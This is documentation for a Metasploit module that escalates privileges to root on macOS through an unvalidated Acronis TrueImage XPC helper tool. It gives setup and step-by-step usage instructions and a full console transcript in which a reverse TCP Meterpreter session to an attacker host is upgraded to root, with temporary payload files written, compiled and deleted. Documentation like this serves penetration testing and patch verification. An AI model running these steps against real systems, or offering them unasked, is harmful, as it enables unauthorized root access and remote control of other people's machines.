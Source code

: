 ## Vulnerable Application

Acronis TrueImage versions 2019 update 1 through 2021 update 1
are vulnerable to privilege escalation. The `com.acronis.trueimagehelper`
helper tool does not perform any validation on connecting clients,
which gives arbitrary clients the ability to execute functions provided
by the helper tool with `root` privileges.

This module connects to the helper tool and executes the payload via
the helper tool's `executeProcess:arguments:caller:withReply:;` function,
granting a session as `root`.

### Installation Instructions

Run through the installer with all of the defaults. Once the application
is installed, open the application and allow the privileges requested.
That should be enough for the helper tool to be placed in the
`/Library/PrivilegedHelperTools` directory. You should not have to set up
a trial to get the exploit to work.

*Note* The 2021 version of Acronis TrueImage comes with an uninstaller
that will remove the helper tool if used. However, if the software is
uninstalled via the drag-and-drop method, the helper tool will be left behind.
The 2020 version does not appear to come with an uninstaller, so the helper tool
will need to be manually deleted from `/Library/PrivilegedHelperTools` when
uninstalling the software.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get a meterpreter or shell session on the target
4. Do: `use exploit/osx/local/acronis_trueimage_xpc_privesc`
5. Do: `set SESSION <session_no>`
6. Do: `run`
7. You should get a new session as root.

## Options

### WRITABLE_DIR

Directory to use to write exploit files to

### SHELL

Default shell to use for exploit

### COMPILE

Determines if exploit will be compiled on the target or if a pre-compiled exploit
will be used.

## Scenarios

### Acronis TrueImage Build 22510 on macOS 12.5

```
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Transmitting first stager...(214 bytes)
[*] Transmitting second stager...(49152 bytes)
[*] Sending stage (810648 bytes) to 192.168.140.204
[*] Meterpreter session 1 opened (192.168.140.1:4444 -> 192.168.140.204:53610) at 2022-11-15 08:44:36 -0600

meterpreter > getuid
Server username: space
meterpreter > sysinfo
Computer     : spaces-Mac.local
OS           :  (macOS 12.5.0)
Architecture : x64
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/osx/local/acronis_trueimage_xpc_privesc
[*] Using configured payload osx/x64/meterpreter/reverse_tcp
msf exploit(osx/local/acronis_trueimage_xpc_privesc) > set session 1
session => 1
msf exploit(osx/local/acronis_trueimage_xpc_privesc) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf exploit(osx/local/acronis_trueimage_xpc_privesc) > set lport 5555
lport => 5555
msf exploit(osx/local/acronis_trueimage_xpc_privesc) > set verbose true
verbose => true
msf exploit(osx/local/acronis_trueimage_xpc_privesc) > run

[*] Started reverse TCP handler on 192.168.140.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Vulnerable build 22510 found
[*] Attempting to write payload at /tmp/FHQUXzNR
[*] Writing '/tmp/FHQUXzNR' (17204 bytes) ...
[+] Successfully wrote payload at /tmp/FHQUXzNR
[*] Successfully compiled iZMwhN.m...Now executing payload
[*] Transmitting first stager...(214 bytes)
[*] Transmitting second stager...(49152 bytes)
[*] Sending stage (810648 bytes) to 192.168.140.204
[+] Deleted /tmp/FHQUXzNR
[+] Deleted /tmp/iZMwhN.m
[+] Deleted /tmp/iZMwhN
[*] Meterpreter session 2 opened (192.168.140.1:5555 -> 192.168.140.204:53763) at 2022-11-15 08:45:13 -0600

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : spaces-Mac.local
OS           :  (macOS 12.5.0)
Architecture : x64
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
```
